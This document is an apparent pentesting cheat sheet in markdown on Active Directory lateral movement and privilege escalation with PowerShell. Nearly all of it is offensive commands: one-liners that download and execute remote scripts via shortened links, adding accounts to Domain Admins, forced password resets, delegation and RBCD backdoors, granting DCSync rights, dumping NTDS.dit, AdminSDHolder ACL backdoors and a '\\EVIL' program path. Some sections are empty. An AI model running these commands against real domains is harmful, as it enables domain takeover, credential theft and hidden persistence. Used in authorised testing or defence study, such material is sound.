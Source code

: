 ```yaml
---
layout: post
title: TA0008 Lateral Movement - AD Privilege Escalation with Powershell
parent: Pentesting
category: Pentesting
grand_parent: Cheatsheets
modified_date: 2022-02-11
permalink: /:categories/:title/
---
```

<!-- vscode-markdown-toc -->
* [PRE-REQUISITE: Installing PowerUp and PowerSploit](#PRE-REQUISITE:InstallingPowerUpandPowerSploit)
* [Tampering the OS to enabling Remote Administration](#TamperingtheOStoenablingRemoteAdministration)
* [LATERAL MOVEMENT](#LATERALMOVEMENT)
* [PRIVESC](#PRIVESC)
* [TOKEN IMPERSONATION](#TOKENIMPERSONATION)
* [ADD MEMBER](#ADDMEMBER)
* [FORCE PASSWORD CHANGE](#FORCEPASSWORDCHANGE)
* [KERBEROASTING](#KERBEROASTING)
* [ABUSING DELEGATION](#ABUSINGDELEGATION)
* [DUMP NTDS.DIT](#DUMPNTDS.DIT)
* [Admin SDHolder](#AdminSDHolder)
* [SMB v1](#SMBv1)

<!-- vscode-markdown-toc-config
	numbering=false
	autoSave=true
	/vscode-markdown-toc-config -->
<!-- /vscode-markdown-toc -->

## <a name='PRE-REQUISITE:InstallingPowerUpandPowerSploit'></a>PRE-REQUISITE: Installing PowerUp and PowerSploit

- [PowerUp CheatSheet](https://github.com/HarmJ0y/CheatSheets/blob/master/PowerUp.pdf)
- [PowerSploit CheatSheet](https://github.com/HarmJ0y/CheatSheets/blob/master/PowerSploit.pdf)

```powershell
# ActiveDirectory Module
iex (new-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/ADModule/master/Import-ActiveDirectory.ps1');Import-ActiveDirectory

# PowerUp Module
iex (new-Object Net.WebClient).DownloadString('http://bit.ly/1PdjSHk'); . .\PowerUp.ps1

# PowerSploit Module
iex (new-Object Net.WebClient).DownloadString('http://bit.ly/28RwLgo'); . .\PowerSploit.ps1
```

## <a name='TamperingtheOStoenablingRemoteAdministration'></a>Tampering the OS to enabling Remote Administration
```powershell
# powershell remoting enable / verify (Needs Admin Access)
Enable-PSRemoting

# WMI remoting as user authenticated on the Da / execution with DC privileges
Set-RemoteWMI -UserName johndoe -ComputerName dcorp-dc.dollarcorp.moneycorp.local -namespace 'root\cimv2' -Verbose

# RDP : enable / disable / check access
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 1 /f
reg query "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections

```

## <a name='LATERALMOVEMENT'></a>LATERAL MOVEMENT
```powershell
Invoke-DCOM
Invoke-SMBExec
Invoke-PsExec
Invoke-Command
mstsc.exe
```

## <a name='PRIVESC'></a>PRIVESC
```
Get-Hotfix
```

## <a name='TOKENIMPERSONATION'></a>TOKEN IMPERSONATION

## <a name='ADDMEMBER'></a>ADD MEMBER
```
# OPTION 1
net group "Domain admins" dagreat /add /domain

# OPTION 2
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('<Domain>\dagreat',$SecPassword)
Add-DomainGroupMember -Identity 'Domain Admins' -Members 'jomivz' -Credential $Cred

# VERIFICATION
Get-DomainGroupMember -Identity 'Domain Admins'

# set the specified property for the given user identity
Set-DomainObject testuser -Set @{'mstsinitialprogram'='\\EVIL\program.exe'} -Verbose

# Set the owner of 'dfm' in the current domain to 'harmj0y'
Set-DomainObjectOwner -Identity dfm -OwnerIdentity harmj0y
```


## <a name='FORCEPASSWORDCHANGE'></a>FORCE PASSWORD CHANGE
```
# OPTION 1
net user dagreat Password123! /domain

# OPTION 2
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('<Domain>\dagreat',$SecPassword)
$UserPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
Set-DomainUserPassword -Identity dagreat -AccountPassword $UserPassword -Credential $Cred
```

## <a name='KERBEROASTING'></a>KERBEROASTING
```

```
## <a name='ABUSINGDELEGATION'></a>ABUSING DELEGATION
```
# configure the CD backdoor with proto transition
Get-ADComputer -Identity <ServiceA> | Set-ADAccountControl -TrustedToAuthForDelegation $true
Set-ADComputer -Identity DC01 -Add @{'msDS-AllowedDelegationTo'=@('CIFS/DC01.corp')}

# configure a RBCD backdoor
# ServiceB has 'msDS-AllowedToActOnBehalfOfOtherIdentity' set, pointing to ServiceA
Set-ADComputer <ServiceB> -PrincipalAllowedToDelegateToAccount <ServiceA>

# trigger the backdoor
[Reflection::Assembly]::LoadWithPartialName('System.IdentityModel') | out-null
$idToImpersonate = New-Object System.Security.Principal.WindowsIdentity @('<DAgreat>')
$idToImpersonate.Impersonate()
```

# Set A DCSYNC
```
Add-ObjectAcl -TargetDistinguishedName "dc=<DC01>,dc=local" -PrincipalSamAccountName <sogreatW -Rights DCSync -Verbose
```

## <a name='DUMPNTDS.DIT'></a>DUMP NTDS.DIT
```
ntdsutil.exe "activate instance ntds" "ifm" "Create Full C:\Temp\ntds.dmp" quit quit
```

## <a name='AdminSDHolder'></a>Admin SDHolder
```
# backdoor the ACLs of all privileged accounts with the 'matt' account through AdminSDHolder abuse
Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,DC=<Domain>,DC=local' -PrincipalIdentity matt -Rights All/
```


## <a name='SMBv1'></a>SMB v1
```
# connecting from kali to windows
smbclient -U jomivz -L 1.2.3.4 -W testlab.local

# win10 tampering: PS activate SMBv1 OptionalFeatures
Enable-WindowsOptionalFeature -Online -FeatureName smb1protocol
```
Reference: [Docs Microsoft - configuring SMB](https://docs.microsoft.com/en-us/windows-server/storage/file-server/troubleshoot/detect-enable-and-disable-smbv1-v2-v3)
